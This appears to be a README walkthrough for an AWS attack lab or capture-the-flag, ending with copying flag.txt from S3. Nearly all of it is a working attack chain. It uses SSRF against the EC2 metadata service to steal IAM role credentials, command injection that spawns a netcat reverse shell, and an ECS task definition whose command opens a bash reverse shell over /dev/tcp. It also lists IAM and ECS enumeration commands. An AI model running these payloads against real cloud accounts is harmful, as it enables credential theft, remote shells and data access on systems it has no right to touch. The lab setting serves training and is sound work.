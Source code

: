 
Go to `http://<ec2_ip_address>`

### SSRF

```
http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>
aws configure --profile attacker
echo "aws_session_token = <token>" >> ~/.aws/credentials
```

### Command Injection

- prepare another host for revshell attack with `nc -lvp 4000`
- command injection on web with `; nc <ip_address> 4000 -e /bin/sh &`

### For more information

- more information about iam

```
aws sts get-caller-identity
aws iam get-role --role-name <role>
aws iam list-attached-role-policies --role-name <role>
aws iam list-role-policies --role-name <role>
aws iam get-role-policy --role-name <role> --policy-name <policy>
aws iam list-roles
```

- more information about ecs

```
`aws ecs list-clusters`
`aws ecs describe-clusters --clusters <cluster>`
`aws ecs list-container-instances --cluster arn:aws:ecs:us-east-1:<aws_id>:cluster/<cluster>`
```

### ECS Privesc

* Attacker prepare revshell at other public ip point with `nc -lvp 4000`.

* And now come back to CLI.

```
# ECS Task definition with revshell command.
aws ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::<userr_id>:role/<role> --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/4000 0>&1\\\"\"]}]"

# For run-task, find available subnets.
aws ec2 describe-subnets

# Run task.
aws ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:<user_id>:cluster/<cluster> --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"<subnet>\"]}}"
```
After a few minutes, the revshell will be connected by container.
Let's do it on revshell.

### Access S3

```
apt-get update
apt-get install awscli

aws s3 ls
aws s3 ls s3://<bucket-name>/
aws s3 cp s3://<bucket-name>/flag.txt .
cat flag.txt
```